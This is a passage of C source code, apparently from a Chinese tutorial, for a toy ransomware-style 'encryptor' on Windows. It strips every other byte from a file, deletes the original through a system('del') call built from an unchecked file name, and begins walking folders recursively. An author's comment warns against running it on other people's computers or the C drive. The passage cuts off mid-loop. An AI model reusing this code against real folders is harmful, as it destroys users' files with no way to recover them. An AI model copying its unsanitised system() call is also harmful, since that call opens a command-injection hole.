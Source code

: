 ```
	char tmp[1024];

	//初始化操作
	memset(tmp, 0, 1024);
	sprintf(tmp, "%s\\tmp", pathName);
	printf("%s\n", tmp);
	fp = fopen(fileName, "rb");
	fpw = fopen(tmp, "wb");
	fseek(fpw, 0, SEEK_SET);             //设置光标位置到文件头

	//每隔一个字节删除一个字节数据
	int i = 0;
	while (!feof(fp)) {
		ch = fgetc(fp);
		if (0 == (i % 2)) { //偶数写入
			i = 1;
			fputc(ch, fpw);
		}
		else {
			i = 0;
			continue;
		}
	}
	fclose(fp);
	fclose(fpw);

	//替换文件
	char commend[1024];
	memset(commend, 0, 1024);
	sprintf(commend, "del \"%s\"", fileName);     //访问路径包含空格增加双引号
	printf("%s\n", commend);
	system(commend);
	rename(tmp, fileName);                       //调用C语言rename函数重命名文件
	printf("\n");
	return;
}

//遍历文件夹找到每个文件 参数-文件夹名字
void findFile(char* pathName)
{
	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */
	//1.设置要找的文件名 通配符实现
	char findFileName[256];
	memset(findFileName, 0, 256);                   //清空数组
	sprintf(findFileName, "%s\\*.*", pathName);
	printf("要找的文件名是：%s\n", findFileName);

	//2.获取目录下第一个文件
	WIN32_FIND_DATA findData;                    //定义结构体
	HANDLE hFile = FindFirstFile(findFileName, &amp;findData);
	//判断返回值等于-1(INVALID_HANDLE_VALUE)
	if (INVALID_HANDLE_VALUE == hFile) {
		printf("查找文件失败!\n");
		return;
	}
	//如果成功进入死循环继续查找下一个文件
	else {
		int ret = 1;
		char temp[256];
		while (ret) {
			//如果找到的是个文件夹 则需要继续查找该文件夹内容
			if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {
				if(findData.cFileName[0] != '.') {
```